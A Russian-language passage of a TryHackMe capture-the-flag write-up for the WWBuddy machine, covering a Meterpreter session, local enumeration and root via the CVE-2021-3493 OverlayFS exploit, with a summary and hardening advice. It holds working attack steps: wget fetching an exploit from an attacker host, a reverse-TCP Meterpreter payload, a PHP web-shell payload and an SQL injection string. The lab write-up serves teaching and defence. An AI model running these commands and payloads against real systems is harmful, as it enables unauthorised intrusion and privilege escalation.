Сессия работает от имени `www-data` — стандартного пользователя веб-сервера на Ubuntu/Debian. Это ожидаемо, потому что выполнение команд началось из PHP-кода веб-приложения.

Проверяем информацию о системе:

```text
meterpreter > sysinfo
```

```text
Computer     : wwbuddy
OS           : Ubuntu 18.04 (Linux 4.15.0-112-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

Итог этого этапа: мы превратили однострочное выполнение команд через `cmd` в полноценную Meterpreter-сессию от пользователя `www-data`.

---

### 🧭 Шаг 8: Переход в обычный shell и первичная локальная разведка

Meterpreter удобен для управления сессией, но для привычной работы с Linux-командами лучше перейти в обычный shell:

```text
meterpreter > shell
```

**Результат:**

```text
Process 1793 created.
Channel 1 created.
```

Metasploit создал новый процесс и открыл канал к системной shell-сессии на целевой машине.

Сначала shell может быть неудобным: без нормального prompt, без полноценной обработки ввода и терминальных возможностей. Поэтому стабилизируем его через Python:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Разбор команды:**

- `python3 -c` — выполнить Python-код, переданный прямо в командной строке.
- `import pty` — подключить стандартный Python-модуль `pty`, который умеет создавать pseudo-terminal.
- `pty.spawn("/bin/bash")` — запустить `/bin/bash` внутри pseudo-terminal.

После этого получаем более удобный bash:

```text
www-data@wwbuddy:~/html$
```

Это не повышение привилегий, а только улучшение качества shell. Пользователь остаётся тем же:

```text
www-data
```

---

#### 🔎 Осмотр файловой системы

Смотрим текущую директорию веб-приложения:

```bash
ls
```

```text
admin
api
change
chat.php
config.php
footer.html
header.html
images
index.php
js
login
logout.php
profile
register
styles
```

Мы всё ещё находимся в директории сайта. Дальше проверяем домашние директории пользователей:

```bash
cd /home
ls
```

```text
jenny  roberto  wwbuddy
```

На машине есть три локальных пользователя:

- `jenny`;
- `roberto`;
- `wwbuddy`.

Пробуем найти пользовательский флаг стандартным способом:

```bash
find / -name "user.txt" 2>/dev/null
```

**Разбор команды:**

- `find /` — искать от корня файловой системы.
- `-name "user.txt"` — искать файл с точным именем `user.txt`.
- `2>/dev/null` — скрыть ошибки из `stderr`, например `Permission denied`, чтобы вывод был чище.

Команда ничего полезного не вернула. После этого пробуем вручную посмотреть домашние директории:

```bash
ls wwbuddy
```

```text
ls: cannot open directory 'wwbuddy': Permission denied
```

И аналогично:

```bash
ls roberto
```

```text
ls: cannot open directory 'roberto': Permission denied
```

Это важный момент: у пользователя `www-data` нет прав читать домашние директории обычных пользователей.

---

#### 📌 Промежуточный результат

На этом этапе понятно:

- мы получили shell на машине;
- shell работает от имени `www-data`;
- `www-data` может читать файлы веб-приложения;
- доступ к домашним директориям пользователей закрыт;
- напрямую забрать `user.txt` не получилось;
- следующий шаг — искать путь повышения привилегий или способ перейти с `www-data` на одного из локальных пользователей.

---

### 🚀 Шаг 9: Повышение привилегий через CVE-2021-3493

Так как прав пользователя `www-data` недостаточно, начинаем локальную разведку под повышение привилегий. Один из первых важных шагов — узнать версию ядра Linux:

```bash
uname -a
```

**Результат:**

```text
Linux wwbuddy 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

**Разбор команды:**

- `uname` — выводит информацию о системе.
- `-a` — показать всю доступную информацию: имя ядра, hostname, версию ядра, дату сборки, архитектуру и ОС.

Из вывода видим:

- hostname: `wwbuddy`;
- ядро: `4.15.0-112-generic`;
- дистрибутивная база: Ubuntu;
- архитектура: `x86_64`;
- дата сборки ядра: `Thu Jul 9 23:41:39 UTC 2020`.

Ядро старое, поэтому проверяем известные local privilege escalation CVE для этой версии Ubuntu/kernel. Подходящих вариантов несколько, но выбираем **CVE-2021-3493**.

Эта уязвимость связана с реализацией **OverlayFS** в Ubuntu kernel. Если коротко: из-за некорректной проверки capabilities в связке с user namespaces локальный непривилегированный пользователь мог повысить права. Описание уязвимости есть на странице Ubuntu Security: [CVE-2021-3493](https://ubuntu.com/security/CVE-2021-3493).

Для эксплуатации используем PoC:

[briskets/CVE-2021-3493](https://github.com/briskets/CVE-2021-3493)

---

#### 📥 Загрузка exploit.c на целевую машину

На атакующей машине в директории `Downloads` лежат два файла:

```bash
ls
```

```text
exploit.c RCE
```

Снова поднимаем HTTP-сервер, чтобы отдать файл цели:

```bash
python3 -m http.server 80
```

**Результат на атакующей машине:**

```text
Serving HTTP on :: port 80 (http://[::]:80/) ...
::ffff:10.129.177.154 - - [29/May/2026 21:22:34] "GET /exploit.c HTTP/1.1" 200 -
```

Как и раньше, `200` означает, что файл успешно скачан целевой машиной.

На целевой машине переходим в `/tmp`:

```bash
cd /tmp
```

Почему `/tmp`:

- это стандартная временная директория Linux;
- туда часто можно писать обычным пользователям;
- удобно хранить временные exploit-файлы;
- после перезагрузки или очистки системы такие файлы не считаются постоянными.

Скачиваем exploit:

```bash
wget 192.168.131.156/exploit.c
```

**Результат:**

```text
--2026-05-29 18:22:34--  http://192.168.131.156/exploit.c
Connecting to 192.168.131.156:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3560 (3.5K) [text/x-c]
Saving to: 'exploit.c'

exploit.c           100%[===================>]   3.48K  --.-KB/s    in 0.002s

2026-05-29 18:22:34 (1.75 MB/s) - 'exploit.c' saved [3560/3560]
```

Проверяем:

```bash
ls
```

```text
exploit.c
```

---

#### 🛠️ Компиляция exploit

Файл `exploit.c` — это исходный код на языке C. Его нельзя просто запустить как бинарник, сначала нужно скомпилировать:

```bash
gcc exploit.c -o exploit
```

**Разбор команды:**

- `gcc` — компилятор C.
- `exploit.c` — исходный файл.
- `-o exploit` — имя выходного бинарного файла.

После компиляции проверяем директорию:

```bash
ls
```

```text
exploit  exploit.c
```

Теперь есть:

- `exploit.c` — исходный код;
- `exploit` — скомпилированный исполняемый файл.

---

#### 🧨 Запуск exploit и получение root

Запускаем exploit:

```bash
./exploit
```

После выполнения prompt меняется:

```text
bash-4.4#
```

Символ `#` в Linux shell обычно означает, что мы находимся в shell с правами `root`. Это главный признак успешного повышения привилегий.

Теперь можно читать директории, которые раньше были закрыты для `www-data`.

---

#### 🏁 Поиск флагов

Переходим в `/home`:

```bash
cd /home
ls
```

```text
jenny  roberto  wwbuddy
```

Заходим к пользователю `roberto`:

```bash
cd roberto
ls
```

```text
importante.txt
```

Читаем файл:

```bash
cat importante.txt
```

Внутри находится текст на португальском и первый пользовательский флаг. Флаг в отчёте замазываем:

```text
THM{*************}
```

После этого проверяем `/root`:

```bash
cd /root
ls
```

```text
root.txt
```

Читаем root-флаг:

```bash
cat root.txt
```

Флаг также замазываем:

```text
THM{************************}
```

✅ В результате CVE-2021-3493 дала root-shell, после чего удалось прочитать сразу два флага.

---

## 🏁 Итог

Машина **WWBuddy** успешно пройдена по цепочке:

> 🔍 Recon → 🌐 WWBuddy Web App → 💉 SQL Injection в nickname → 🔐 Массовая смена паролей → 👤 Доступ к аккаунту WWBuddy → 🗂️ Directory Enumeration → 🧑‍💼 Доступ к `/admin/` через Henry → 🧪 PHP/log poisoning → 🐚 RCE as `www-data` → 📦 Meterpreter payload → 🎧 Meterpreter session → 🧭 Local Enumeration → 🚀 CVE-2021-3493 → 👑 Root → 🏁 Flags

**Ключевые точки:**

- 🔎 **Разведка** — базовый `nmap` показал только `22/tcp` и `80/tcp`, поэтому основной вектор атаки сразу сместился в сторону веб-приложения.
- 🌐 **WWBuddy** — сайт оказался недоделанным приложением с регистрацией, логином, профилем и сменой пароля.
- 💉 **SQL Injection в nickname** — payload `' or 1=1 -- -` в nickname сломал SQL-условие при смене пароля.
- 🔐 **Ошибка бизнес-логики** — приложение меняло пароль по контролируемому `nickname`, а не по безопасному `user_id` из серверной сессии. Из-за этого пароль сменился у всех пользователей.
- 👤 **Захват аккаунта WWBuddy** — после массовой смены паролей удалось войти под существующим пользователем `WWBuddy`.
- 🗂️ **Gobuster enumeration** — перебор директорий нашёл интересные пути `/admin/`, `/api/`, `/change/`, `/profile/`, `/register/`.
- 🧑‍💼 **Admin-доступ через Henry** — страница `/admin/` открылась из сессии Henry и показала лог попыток доступа.
- 🧪 **PHP/log poisoning** — nickname с payload `<?php system($_GET["cmd"]); ?>` попал в лог, который затем обрабатывался PHP-кодом.
- 🐚 **RCE** — параметр `cmd` позволил выполнять команды на сервере от пользователя `www-data`.
- 📦 **Meterpreter payload** — через `msfvenom` был создан ELF payload `linux/x64/meterpreter/reverse_tcp`, скачан на цель через `wget` и сделан исполняемым через `chmod +x`.
- 🎧 **Meterpreter session** — `exploit/multi/handler` принял reverse-соединение после запуска `/admin/?cmd=./RCE`.
- 🧭 **Локальная разведка** — shell работал от `www-data`, а домашние директории пользователей были недоступны, поэтому потребовалось повышение привилегий.
- 🚀 **CVE-2021-3493** — устаревшее ядро Ubuntu `4.15.0-112-generic` оказалось уязвимо к local privilege escalation через OverlayFS.
- 👑 **Root** — компиляция и запуск `exploit.c` в `/tmp` дали root-shell, после чего удалось прочитать пользовательский и root-флаги.

**Рекомендации по защите:**

- 🔒 Использовать parameterized queries/prepared statements для всех SQL-запросов.
- 🆔 Привязывать смену пароля к `user_id` из серверной сессии, а не к изменяемому `nickname`.
- 🧼 Экранировать пользовательский ввод при выводе в HTML и никогда не подключать логи как PHP-файлы.
- 🚫 Не хранить пользовательские данные в файлах, которые могут быть выполнены интерпретатором.
- 🧑‍💼 Закрывать debug/admin-страницы и проверять доступ по ролям на серверной стороне.
- 🧾 Не выводить в админке лишние хеши, токены и служебные данные.
- 📉 Ограничивать права веб-пользователя `www-data` и запрещать запись в директории, из которых исполняется код.
- 🔄 Обновлять ядро и ставить security patches, чтобы закрывать local privilege escalation CVE вроде CVE-2021-3493.
- 🧪 Регулярно проверять приложение на SQL injection, stored code injection, log poisoning и ошибки бизнес-логики.

---

Автор: **masquadd** 👾
